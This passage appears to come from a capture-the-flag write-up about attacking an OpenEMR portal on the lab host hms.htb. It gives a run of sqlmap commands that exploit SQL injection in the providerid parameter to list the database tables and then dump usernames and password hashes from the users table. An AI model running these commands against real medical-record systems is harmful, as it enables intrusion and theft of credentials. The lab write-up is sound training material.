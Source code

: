 - Enumerate the `openemr` database: `sqlmap -u 'http://hms.htb/portal/find_appt_popup_user.php?providerid=a&catid=' --cookie='PHPSESSID=jb4g89dk1edakino2vq1qdhmtv' -p providerid -D openemr --tables`.

*Enumerated tables*

![Img](images/sql5.png)

- Got the table `users`: `sqlmap -u 'http://hms.htb/portal/find_appt_popup_user.php?providerid=a&catid=' --cookie='PHPSESSID=jb4g89dk1edakino2vq1qdhmtv' -p providerid -D openemr -T users --columns`

- Got column names, so get data from them: `sqlmap -u 'http://hms.htb/portal/find_appt_popup_user.php?providerid=a&catid=' --cookie='PHPSESSID=jb4g89dk1edakino2vq1qdhmtv' -p providerid -D openemr -T users -C id,username,mname,password --dump`.

*Retrieved credentials*
